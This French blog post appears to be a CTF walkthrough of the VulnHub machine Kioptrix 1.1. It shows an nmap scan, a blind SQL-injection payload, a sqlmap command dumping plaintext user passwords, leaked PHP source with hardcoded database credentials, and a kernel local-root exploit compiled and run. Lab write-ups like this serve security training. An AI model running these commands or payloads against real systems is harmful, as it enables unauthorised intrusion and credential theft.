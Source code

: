 ```yaml
---
title: "Solution du CTF Kioptrix: 1.1 de VulnHub"
tags: [CTF, VulnHub]
---
```


Après un temps... quelque peu plus long que prévu, *SourceForge* a pu régler les derniers bugs provoqués par sa mise à jour et je peux enfin poster à nouveaux des articles.  

Comme prévu les walkthroughs à venir concernent la saga *Kioptrix*, ici il s'agit de [l'épisode 1.1](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/) qui est bien le second et non une mise à jour du premier.  

Web exploitation 101
--------------------

```plain
Nmap scan report for 192.168.1.39
Host is up (0.00021s latency).
Not shown: 65528 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            681/udp  status
|_  100024  1            684/tcp  status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-07T23:10:47+00:00
|_Not valid after:  2010-10-07T23:10:47+00:00
|_ssl-date: 2018-02-13T20:41:56+00:00; +4h59m59s from local time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC2_CBC_128_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_CBC_128_CBC_WITH_MD5
|_    SSL2_RC4_128_EXPORT40_WITH_MD5
631/tcp  open  ipp      CUPS 1.1
| http-methods: Potentially risky methods: PUT
|_See http://nmap.org/nsedoc/scripts/http-methods.html
|_http-title: 403 Forbidden
684/tcp  open  status   1 (RPC #100024)
3306/tcp open  mysql    MySQL (unauthorized)
```

Le site web dispose d'une page de login très basique (champs user, password, bouton submit). *Wapiti* n'en fait qu'une bouchée :  

```plain
[*] Lancement du module blindsql
---
Faille d'injection SQL en aveugle dans http://192.168.1.39/index.php via une injection dans le paramètre uname
Evil request:
    POST /index.php HTTP/1.1
    Host: 192.168.1.39
    Referer: http://192.168.1.39/
    Content-Type: application/x-www-form-urlencoded

    uname=%27%20or%20benchmark%2810000000%2CMD5%281%29%29%231&psw=letmein&btnLogin=Login
---
```

On enchaîne avec *sqlmap*, son meilleur ami :  

```bash
python sqlmap.py -u http://192.168.1.39/index.php --data "uname=Administrator&psw=test&btnLogin=Login" --risk 3 --level 5
```

Après avoir obtenu le nom de la base de données et des tables intéressantes on peut dumper le contenu de la table users avec *-D webapp -T users --dump*  

```plain
Database: webapp
Table: users
[2 entries]
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
| 1  | admin    | 5afac8d85f |
| 2  | john     | 66lajGGbla |
+----+----------+------------+
```

Avec ces identifiants on peut passer la page de login et on tombe sur une classique faille d'exécution de commande :  

![Kioptrix 1.1 ping command execution](/assets/img/kioptrix/kioptrix2.png)

On en profite pour chercher quelques identifiants :  

```php
<?php
	mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());
	//print "Connected to MySQL<br />";
	mysql_select_db("webapp");

	if ($_POST['uname'] != ""){
		$username = $_POST['uname'];
		$password = $_POST['psw'];
		$query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
		//print $query."<br>";
		$result = mysql_query($query);

		$row = mysql_fetch_array($result);
		//print "ID: ".$row['id']."<br />";
	}

?>
```

20CentOS
--------

Les identifiants ne permettent pas d'accéder aux comptes présents (*harold* et *john*) mais comme c'est un *Kioptrix* il suffit de chercher le bon exploit pour le système :  

```plain
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux

LSB Version:    :core-3.0-ia32:core-3.0-noarch:graphics-3.0-ia32:graphics-3.0-noarch
Distributor ID: CentOS
Description:    CentOS release 4.5 (Final)
Release:        4.5
Codename:       Final
```

Ce qui nous amène à [une faille](https://www.exploit-db.com/exploits/9542/) découverte par *Tavis Ormandy* et *Julien Tinnes* touchant le kernel.  

```plain
bash-3.00$ gcc -o sploit sploit.c
gcc -o sploit sploit.c
sploit.c:109:28: warning: no newline at end of file
bash-3.00$ ./sploit
./sploit
sh-3.00# id
id
uid=0(root) gid=0(root) groups=48(apache)
```

Au suivant !  


*Published February 22 2018 at 12:13*
